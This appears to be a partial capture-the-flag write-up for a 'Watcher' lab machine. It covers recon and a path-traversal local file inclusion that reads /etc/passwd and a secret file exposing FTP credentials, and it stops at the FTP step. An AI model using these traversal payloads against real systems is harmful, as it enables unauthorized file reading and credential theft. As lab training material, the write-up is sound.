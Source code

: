 ## recon

### Steps to reproduce

#### 1.

*Things to notice*

- Wappalyzer:
![alt text](image.png)
    - Backend is PHP

- Nuclei
    - /flag_1.txt / flag
    - /secret_file_do_not_read.txt
        - get a 403 forbidden but we can do the LFI from below

**Possible LFI**

*Proof of Concept:*

```
http://watcher.thm/post.php?post=../../../etc/passwd

returns:

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin will:x:1000:1000:will:/home/will:/bin/bash ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin mat:x:1002:1002:,#,,:/home/mat:/bin/bash toby:x:1003:1003:,,,:/home/toby:/bin/bash systemd-timesync:x:112:115:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin tss:x:113:118:TPM software stack,,,:/var/lib/tpm:/bin/false tcpdump:x:114:119::/nonexistent:/usr/sbin/nologin usbmux:x:115:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin fwupd-refresh:x:116:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1004:1005:Ubuntu:/home/ubuntu:/bin/bash

possible to do sum with
```

![alt text](image-1.png)


**Reading the secret txt with LFI**

```
http://watcher.thm/post.php?post=secret_file_do_not_read.txt
```

*Returns*

```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:givemefiles777
```

**Exploiting FTP**

- Version vsFTPd 3.0.5
![alt text](image-2.png)
- /files dir with executes right
![alt text](image-3.png)
    - 